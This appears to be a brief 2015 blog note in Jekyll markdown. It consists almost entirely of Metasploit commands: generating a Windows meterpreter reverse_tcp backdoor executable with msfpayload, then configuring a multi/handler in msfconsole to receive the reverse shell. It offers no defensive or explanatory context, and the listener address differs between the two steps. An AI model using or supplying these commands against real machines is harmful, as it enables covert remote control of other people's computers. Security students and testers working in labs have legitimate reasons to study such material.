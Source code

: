 ```yaml
---
layout: post
title: "msf-reversetcp"
date: 2015-11-11 23:13:47 +0800
comments: true
categories: 
---
```

msf revesetcp

###生成backdoor.exe
    msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.130 LPORT=8080 X > ～/Desktop/backdoor.exe

###exploit
    msfconsole
    msf > use exploit/multi/
    Display all 183 possibilities? (y or n)
    msf > use exploit/multi/handler 
    msf exploit(handler) > set payload windows/
    Display all 140 possibilities? (y or n)
    msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf exploit(handler) > set LHOST 192.168.56.1
    LHOST => 192.168.56.1
    msf exploit(handler) > set LPORT 8080
    LPORT => 8080
    msf exploit(handler) > exploit 

